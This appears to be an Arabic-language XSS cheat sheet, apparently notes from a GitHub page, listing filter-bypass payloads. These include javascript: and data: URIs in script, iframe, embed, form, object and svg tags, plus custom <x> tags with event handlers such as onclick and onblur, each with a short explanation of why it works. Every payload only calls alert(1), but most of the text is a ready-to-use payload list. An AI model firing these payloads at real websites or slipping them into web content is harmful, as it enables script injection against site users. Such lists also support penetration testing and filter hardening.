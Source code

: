 🧪 **مثال قوي جدًا:**

```html
<script src="data:,alert(1)"></script>
<iframe src="javascript:alert(1)"></iframe>
<a href="javascript:alert(1)">click</a>
```

**الخلاصة:**
ناقلات بدون معالجات مثل `<script src=data:,alert(1)>` و`<a href=javascript:alert(1)>click` فعالة لأنها تستخدم بروتوكولات وعلامات HTML مدعومة.

##### كل البايلود في الفكره دي 
```javascript
 <script>alert(1)</script> 
<script src=data:,alert(1)> 
<iframe src=javascript:alert(1)> 
<embed src=javascript:alert(1)>
<a href=javascript:alert(1)>click
<math><brute href=javascript:alert(1)>click
<form action=javascript:alert(1)><input type=submit>
<isindex action=javascript:alert(1) type=submit value=click>
<form><button formaction=javascript:alert(1)>click
<form><input formaction=javascript:alert(1) type=submit value=click> 
<form><input formaction=javascript:alert(1) type=image value=click> 
<form><input formaction=javascript:alert(1) type=image src=SOURCE> 
<isindex formaction=javascript:alert(1) type=submit value=click> 
<object data=javascript:alert(1)> 
<iframe srcdoc=<svg/o&#x6Eload&equals;alert&lpar;1)&gt;> 
<svg><script xlink:href=data:,alert(1) />
<math><brute xlink:href=javascript:alert(1)>click
```
---

### ** ناقلات مع معالجات أحداث غير محددة (Vectors with Agnostic Event Handlers)**
{ #XSS--ALL--Event--Payload / #XSS_unique_tags  }
**الشرح البسيط:**
يُستخدم عندما تمنع المرشحات أسماء علامات HTML معروفة. يمكنك استخدام علامات مخصصة (مثل `<x>`) مع معالجات أحداث تتطلب تفاعل المستخدم.

**أمثلة تعمل:**
- `<x contenteditable onblur=alert(1)>lose focus!`: يُنفذ عند فقدان التركيز.
- `<x onclick=alert(1)>click this!`: يُنفذ عند النقر.
- `<x oncopy=alert(1)>copy this!`: يُنفذ عند النسخ.
- `<x oncontextmenu=alert(1)>right click this!`: يُنفذ عند النقر الأيمن.
- `<x onmouseover=alert(1)>hover this!`: يُنفذ عند تمرير الفأرة.
- `<x contenteditable oninput=alert(1)>input here!`: يُنفذ عند الكتابة.
- `<x onpointerover=alert(1)>hover this!`: يُنفذ عند تمرير المؤشر.

**لماذا يعمل؟**
- العلامات المخصصة مثل `<x>` لا تُحظر غالبًا.
- معالجات مثل `onblur`، `onclick`، و`onpointerover` مدعومة وقليلًا ما تُحظر.
- تتطلب تفاعل المستخدم لكنها فعالة في سياقات DOM.
